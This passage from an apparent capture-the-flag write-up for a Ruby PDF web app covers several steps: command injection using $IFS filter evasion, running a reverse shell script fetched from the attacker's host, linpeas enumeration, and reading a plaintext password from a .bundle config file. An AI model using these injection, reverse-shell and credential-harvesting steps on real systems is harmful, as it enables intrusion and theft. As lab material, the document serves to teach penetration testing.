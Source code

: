 - the reverse shell has been successfully downloaded:

    `http://10.10.14.49:8000/?ls=$(ls$IFS$HOME)`
    ```html
    Directory listing for /?ls=
    revshell.sh
    ```

- I run the reverse shell: `FILE=revshell.sh;bash$IFS$HOME/$FILE`

    Bingo! Now I'm the `ruby` user

<br><br>

## Privesc user

- I run the script: `linpeas.sh`

    ```
    ╔══════════╣ Unexpected in /opt (usually empty)
    total 16
    drwxr-xr-x  3 root root 4096 Oct 26 08:28 .
    drwxr-xr-x 18 root root 4096 Nov 21 15:11 ..
    drwxr-xr-x  2 root root 4096 Oct 26 08:28 sample
    -rwxr-xr-x  1 root root  848 Sep 25 11:02 update_dependencies.rb

    ╔══════════╣ Searching root files in home dirs (limit 30)
    /home/henry/user.txt
    /home/henry/.bash_history
    /home/ruby/.bundle
    /home/ruby/.bundle/config
    /home/ruby/.bash_history
    /var/www
    /var/www/html
    /var/www/html/index.nginx-debian.html
    /var/www/pdfapp
    /var/www/pdfapp/public
    /var/www/pdfapp/public/images
    /var/www/pdfapp/public/stylesheets
    /var/www/pdfapp/public/stylesheets/style.css
    /var/www/pdfapp/config.ru
    /var/www/pdfapp/config
    /var/www/pdfapp/config/environment.rb
    /var/www/pdfapp/Gemfile
    /var/www/pdfapp/pdf
    /var/www/pdfapp/app
    /var/www/pdfapp/app/views
    /var/www/pdfapp/app/views/index.erb
    /var/www/pdfapp/app/controllers
    /var/www/pdfapp/app/controllers/pdf.rb
    /var/www/pdfapp/Gemfile.lock
    ```

- `cat /home/ruby/.bundle/config`
    ```
    BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
    ```
